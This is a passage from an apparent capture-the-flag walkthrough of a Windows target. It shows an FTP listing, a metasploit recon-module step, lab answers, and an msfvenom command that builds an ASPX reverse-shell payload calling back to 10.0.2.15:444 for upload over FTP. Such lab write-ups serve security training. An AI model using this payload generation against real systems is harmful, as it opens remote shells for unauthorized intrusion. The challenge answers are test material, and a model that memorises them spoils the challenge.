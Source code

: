```bash
07-24-23  12:34AM               112815 virus2.exe
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.

```

{% hint style="info" %}
aspx
{% endhint %}

### 2.5 - Which metasploit reconnaissance module can be used to list possible privilege escalation paths on a compromised system?

We launch msfconsole:

```bash
msfconsole
```

and we search a post/multi/recon exploit:

```bash
search post/multi/recon
```

<figure><img src=".gitbook/assets/Schermata del 2023-07-24 22-30-38.png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
local\_exploit\_suggester
{% endhint %}

### Task 3 - Find user flag

### 3.1 - Submit the flag located on the babis user's desktop.

\
Now, we can use msfvenom to generate an exploit to upload using ftp

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.15 LPORT=444 -f aspx > exploit.aspx
Payload size: 327 bytes
Final size of aspx file: 2748 bytes
```
